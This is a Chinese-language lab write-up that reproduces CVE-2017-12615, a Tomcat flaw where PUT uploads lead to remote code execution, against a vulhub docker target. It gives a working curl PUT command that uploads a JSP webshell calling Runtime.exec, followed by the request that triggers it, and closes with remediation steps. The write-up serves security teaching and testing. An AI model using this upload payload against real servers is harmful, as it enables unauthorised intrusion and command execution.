



# CVE‑2017‑12615 Apache Tomcat PUT任意文件上传RCE

## 漏洞简介
- CVE编号：CVE‑2017‑12615
- 漏洞类型：配置错误导致任意文件上传，远程代码执行
- 原理：Tomcat DefaultServlet配置 `readonly=false`，开启PUT、DELETE等HTTP方法。攻击者通过PUT请求上传JSP脚本到web可访问目录，访问JSP文件执行系统命令。
- 受影响版本：Apache Tomcat 7.0.0 ~ 7.0.79

## 实验环境

实验拓扑：
 - 目标机：`192.168.0.5`，vulhub docker‑compose靶场，监听8080
 - 攻击机：`192.168.0.8`，使用curl发送攻击payload


>
>使用vulhub官方靶场复现。
>
> 环境说明：CVE‑2017‑12615 原生漏洞仅影响 Tomcat7 系列。本次实验镜像版本为 Tomcat 8.5.19，通过修改`web.xml`设置`readonly=false`模拟漏洞配置。

## 复现步骤
### 1. 目标机启动靶场
```bash
cd /root/vulhub/tomcat/CVE-2017-12615
docker-compose up -d
sleep 15
# 验证靶场首页
curl http://192.168.0.5:8080
```

返回 Tomcat 默认首页代表靶场启动成功。

### 2. 攻击机 PUT 上传 JSP 后门

> 
> 利用关键点：请求路径末尾添加`/`，绕过 Tomcat 后缀解析，PUT 请求体写入 shell.jsp 文件

```
curl -X PUT http://192.168.0.5:8080/shell.jsp/ -d '<%Runtime.getRuntime().exec("touch /tmp/tomcat_pwned");%>'
```

### 3. 攻击机访问 JSP 触发命令执行

```
curl http://192.168.0.5:8080/shell.jsp
```




> 说明：`Runtime.getRuntime().exec()` 执行命令不会返回输出到 HTTP 响应，响应为空属于正常现象。


### 4. 目标机验证文件写入成功

```
docker exec -it cve-2017-12615_tomcat_1 ls -la /usr/local/tomcat/webapps/ROOT/
```

输出中可见 `shell.jsp`，证明文件写入成功。




### 5. 目标机验证命令执行结果

```
docker exec -it cve-2017-12615_tomcat_1 ls -la /tmp
```

存在标记文件 `tomcat_pwned`，RCE 复现完成。




## 漏洞利用链

1. Tomcat 配置文件`web.xml`中 DefaultServlet 设置`readonly=false`，允许 PUT、DELETE 危险 HTTP 方法。
2. 攻击者发送 PUT 请求：`PUT /shell.jsp/`，Tomcat 将请求体保存为 web 根目录下`shell.jsp`。
3. 文件位于 web 可访问目录，攻击者 HTTP 访问该 jsp 文件。
4. Tomcat JSP 引擎解析执行 Java 代码，调用`Runtime.exec()`执行操作系统命令。


## 靶场清理

```
cd /root/vulhub/tomcat/CVE-2017-12615
docker-compose down
```


## 修复方案

1. 修改`conf/web.xml`，DefaultServlet 保持默认`readonly=true`，禁用 PUT/DELETE 方法：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>true</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

```

2. 升级 Apache Tomcat 到安全版本。
3. Web 站点目录禁止业务侧写入脚本文件。


